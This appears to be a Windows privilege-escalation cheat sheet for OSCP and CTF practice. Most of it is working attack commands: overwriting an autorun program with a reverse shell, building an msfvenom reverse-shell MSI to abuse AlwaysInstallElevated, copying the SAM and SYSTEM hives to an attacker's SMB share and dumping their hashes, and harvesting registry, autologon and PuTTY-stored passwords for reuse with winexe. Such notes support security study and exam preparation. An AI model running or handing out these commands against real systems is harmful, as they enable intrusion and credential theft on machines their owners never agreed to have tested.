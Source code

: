 # Autorun executables
```powershell
# WARNING
# BEWARE
# FOR this to work you would have to restart a box
# OSCP exam or CTFs probably want you to turn off the *sigh* box  
#
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe" # sysinternals - check writablity
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y # copy reverse shell and overwrite the autorun
# restart system
```

# AlwaysInstalledElevated
```powershell
# Some PrivEsc related material online does not include the /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated # Query Both
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated # If both keys are set 1 (0x1)
```
On attackbox:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKBOX LPORT=$PORT -f msi -o reverse.msi # Beware of Arch
# Also requires metasploit handler module configured accordingly 
msiexec /quiet /qn /i C:\Windows\Temp\reverse.msi 
```

# Backup SAM and SYSTEM files
```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\ # These can often be transfered and cracked
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```

# Passwords in the registry
```
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon" # For admin autologons!
winexe -U 'admin%password' //MACHINE_IP cmd.exe # Kali winexe
```
PuTTy is an SSH client commonly found on Windows systems users can store session to retrieve the store d proxy credentials from proxcy configurations that are in plaintext 
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "ProxyPassword" /s
```
